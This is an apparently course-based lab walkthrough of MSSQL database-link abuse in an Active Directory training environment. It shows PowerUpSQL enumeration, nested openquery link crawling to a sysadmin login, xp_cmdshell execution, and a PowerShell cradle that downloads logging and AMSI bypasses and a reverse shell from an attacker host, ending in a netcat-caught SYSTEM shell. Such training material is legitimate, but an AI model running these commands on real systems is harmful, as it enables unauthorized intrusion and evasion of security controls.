






# Learning Objective 22 (Domain Privilege Escalation | MSSQL Database Links Abuse)

## Tasks

1. **Get a reverse shell on a SQL server in `eurocorp` forest by abusing database links from `dcorp-mssql`**

---

## Attack Path Steps

- **Find a Target SQL Server where we have Connection Privileges**
- **Find the existing Database Links from the Target SQL Server**
- **Check if we can Execute Commands on a Linked Database**
- **Obtain a Reverse Shell executing a PowerShell Script on the Target Linked Database**

---

## Solution

1. **Get a reverse shell on a SQL server in `eurocorp` forest by abusing database links from `dcorp-mssql`**

- **Find a Target SQL Server where we have Connection Privileges**

Let's start with enumerating SQL servers in the domain and if `student422` has privileges to connect to any of them.

We can use PowerUpSQL module for that.


`cd \AD\Tools`

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerUpSQL-master\PowerupSQL.psd1`

`Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose`:
```
VERBOSE: dcorp-mgmt.dollarcorp.moneycorp.local,1433 : Connection Failed.
VERBOSE: dcorp-mgmt.dollarcorp.moneycorp.local : Connection Failed.
VERBOSE: dcorp-mssql.dollarcorp.moneycorp.local,1433 : Connection Success.
VERBOSE: dcorp-mssql.dollarcorp.moneycorp.local : Connection Success.
VERBOSE: dcorp-sql1.dollarcorp.moneycorp.local,1433 : Connection Failed.
VERBOSE: dcorp-sql1.dollarcorp.moneycorp.local : Connection Failed.

[SNIP]

ComputerName           : dcorp-mssql.dollarcorp.moneycorp.local
Instance               : DCORP-MSSQL🖥️
DomainName             : dcorp🏛️
ServiceProcessID       : 1892
ServiceName            : MSSQLSERVER🗄️
ServiceAccount         : NT AUTHORITY\NETWORKSERVICE
AuthenticationMode     : Windows and SQL Server Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 15.0.2000.5
SQLServerMajorVersion  : 2019
SQLServerEdition       : Developer Edition (64-bit)
SQLServerServicePack   : RTM
OSArchitecture         : X64
OsVersionNumber        : SQL
Currentlogin           : dcorp\student422👤
IsSysadmin             : No
ActiveSessions         : 1

[SNIP]
```

So, we can connect to `dcorp-mssql`.

Using HeidiSQL client, let's login to `dcorp-mssql` using windows authentication of `student422`.



- **Find the existing Database Links from the Target SQL Server**

After login, enumerate linked databases on `dcorp-mssql`.

```sql
select * from master..sysservers
```



So, there is a database link to `dcorp-sql1` from `dcorp-mssql`.

Let's enumerate further links from `dcorp-sql1`. This can be done with the help of openquery.

```sql
select * from openquery("DCORP-SQL1",'select * from master..sysservers')
```



It is possible to nest openquery within another openquery which leads us to `dcorp-mgmt`.

```sql
select * from openquery("DCORP-SQL1",'select * from openquery("DCORP-MGMT",''select * from master..sysservers'')')
```



We can also use `Get-SQLServerLinkCrawl` for crawling the database links automatically.

`Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Verbose`:
```
VERBOSE: dcorp-mssql.dollarcorp.moneycorp.local : Connection Success.
VERBOSE: dcorp-mssql.dollarcorp.moneycorp.local : Connection Success.
VERBOSE: --------------------------------
VERBOSE:  Server: DCORP-MSSQL🖥️
VERBOSE: --------------------------------
VERBOSE:  - Link Path to server: DCORP-MSSQL
VERBOSE:  - Link Login: dcorp\student422
VERBOSE:  - Link IsSysAdmin: 0
VERBOSE:  - Link Count: 1
VERBOSE:  - Links on this server: DCORP-SQL1
VERBOSE: dcorp-mssql.dollarcorp.moneycorp.local : Connection Success.
VERBOSE: dcorp-mssql.dollarcorp.moneycorp.local : Connection Success.
VERBOSE: --------------------------------
VERBOSE:  Server: DCORP-SQL1🖥️
VERBOSE: --------------------------------
VERBOSE:  - Link Path to server: DCORP-MSSQL -> DCORP-SQL1
VERBOSE:  - Link Login: dblinkuser
VERBOSE:  - Link IsSysAdmin: 0
VERBOSE:  - Link Count: 1
VERBOSE:  - Links on this server: DCORP-MGMT
VERBOSE: dcorp-mssql.dollarcorp.moneycorp.local : Connection Success.
VERBOSE: dcorp-mssql.dollarcorp.moneycorp.local : Connection Success.
VERBOSE: --------------------------------
VERBOSE:  Server: DCORP-MGMT🖥️
VERBOSE: --------------------------------
VERBOSE:  - Link Path to server: DCORP-MSSQL -> DCORP-SQL1 -> DCORP-MGMT
VERBOSE:  - Link Login: sqluser
VERBOSE:  - Link IsSysAdmin: 0
VERBOSE:  - Link Count: 1
VERBOSE:  - Links on this server: EU-SQL26.EU.EUROCORP.LOCAL
VERBOSE: dcorp-mssql.dollarcorp.moneycorp.local : Connection Success.
VERBOSE: dcorp-mssql.dollarcorp.moneycorp.local : Connection Success.
VERBOSE: --------------------------------
VERBOSE:  Server: EU-SQL26🖥️
VERBOSE: --------------------------------
VERBOSE:  - Link Path to server: DCORP-MSSQL -> DCORP-SQL1 -> DCORP-MGMT -> EU-SQL26.EU.EUROCORP.LOCAL🔗
VERBOSE:  - Link Login: sa
VERBOSE:  - Link IsSysAdmin: 1
VERBOSE:  - Link Count: 0
VERBOSE:  - Links on this server:


Version     : SQL Server 2019
Instance    : DCORP-MSSQL🖥️
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL}
User        : dcorp\student422👤
Links       : {DCORP-SQL1}

Version     : SQL Server 2019
Instance    : DCORP-SQL1
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1}
User        : dblinkuser
Links       : {DCORP-MGMT}

Version     : SQL Server 2019
Instance    : DCORP-MGMT
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT}
User        : sqluser
Links       : {EU-SQL26.EU.EUROCORP.LOCAL}

Version     : SQL Server 2019
Instance    : EU-SQL26🖥️
CustomQuery :
Sysadmin    : 1📌
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL26.EU.EUROCORP.LOCAL}
User        : sa👤
Links       :
```

Sweet! We have `sysadmin` on `eu-sql26` server!

- **Check if we can Execute Commands on a Linked Database**

If `xp_cmdshell` is enabled (or RPC out is true, which is set to false in this case), it is possible to execute commands on `eu-sql26` using linked databases.

To avoid dealing with a large number of quotes and escapes, we can use the following command.

`Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'set username'"`:
```
Version     : SQL Server 2019
Instance    : DCORP-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL}
User        : dcorp\student422
Links       : {DCORP-SQL1}

Version     : SQL Server 2019
Instance    : DCORP-SQL1
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1}
User        : dblinkuser
Links       : {DCORP-MGMT}

Version     : SQL Server 2019
Instance    : DCORP-MGMT
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT}
User        : sqluser
Links       : {EU-SQL26.EU.EUROCORP.LOCAL}

Version     : SQL Server 2019
Instance    : EU-SQL26🗄️
CustomQuery : {USERNAME=SYSTEM, }📌
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL26.EU.EUROCORP.LOCAL}
User        : sa
Links       :
```

- **Obtain a Reverse Shell executing a PowerShell Script on the Target Linked Database**

Start a listener.


`C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443`:
```
listening on [any] 443 ...

[...]
```

**Create `Invoke-PowerShellTcpEx.ps1`**

- Create a copy of `Invoke-PowerShellTcp.ps1` and rename it to `Invoke-PowerShellTcpEx.ps1`.
- Open `Invoke-PowerShellTcpEx.ps1` in PowerShell ISE (right click on it and click `Edit`).
- Add `Power -Reverse -IPAddress 172.16.100.22 -Port 443` to the end of the file.



Let's try to execute a PowerShell download execute cradle to execute a PowerShell reverse shell on the `eu-sql26` instance.



`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.22/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.22/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.22/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sql26`

On the listener:

```
[...]

172.16.15.17: inverse host lookup failed: h_errno 11004: NO_DATA
connect to [172.16.100.22] from (UNKNOWN) [172.16.15.17] 61960: NO_DATA
Windows PowerShell running as user SYSTEM on EU-SQL26
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
```
🚀


`$env:username`:
```
SYSTEM👤
```

`$env:computername`:
```
EU-SQL26🖥️
```
🚩

---
---
